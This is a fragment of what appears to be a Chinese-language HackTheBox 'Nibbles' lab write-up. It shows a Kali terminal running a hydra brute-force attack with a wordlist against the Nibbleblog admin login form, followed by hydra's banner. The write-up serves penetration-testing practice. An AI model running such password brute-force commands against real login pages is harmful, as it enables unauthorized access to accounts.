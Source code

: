     ![](/style/image/2024-02-28-00-28-53.png)

+ hydra爆破登录：

    ```
    ┌──(kali㉿kali)-[~/桌面/HTB/Nibbles]
    └─$ hydra -l admin -P /home/kali/桌面/THM/HackPark/wordlist.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^user^&password=^PASS^:F=Incorrect username or password" -f
    Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
